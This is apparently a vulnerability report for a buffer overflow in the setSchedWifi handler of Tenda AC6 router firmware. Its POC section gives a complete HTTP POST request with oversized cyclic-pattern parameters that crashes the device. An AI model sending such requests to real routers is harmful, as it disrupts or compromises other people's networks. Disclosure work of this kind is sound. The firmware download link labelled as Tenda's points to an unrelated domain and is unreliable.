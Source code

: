 # Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** AC6

**Affected firmware version:** V15.03.05.16

**Firmware download address:** [[AC6V1.0升级软件_腾达(Tenda)官方网站](https://tenda.com.cn/material/show/102661)](https://www.h3c.com/cn/d_202504/2389309_30005_0.htm)

# Overview

Tenda `AC6 V15.03.05.16` firmware has a buffer overflow vulnerability in the setSchedWifi function. The functions `strcpy((char *)ptr + 2, src) and strcpy((char *)ptr + 10, src_1);` will copy the src string content to ptr without doing a boundary check, which will cause a buffer overflow and overwrite the memory area after the array, which may cause the program to crash, thereby triggering this security vulnerability.

# Vulnerability details

Call the corresponding function through the `openSchedWifi` route

![image-20250404192619601](mac/image-20250404192619601.png)



There is a buffer overflow here

![image-20250404192722082](mac/image-20250404192722082.png)

# POC

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 309

schedWifiEnable=0&schedEndTime=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
&schedStartTime=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

```



![image-20250404193430885](mac/image-20250404193430885.png)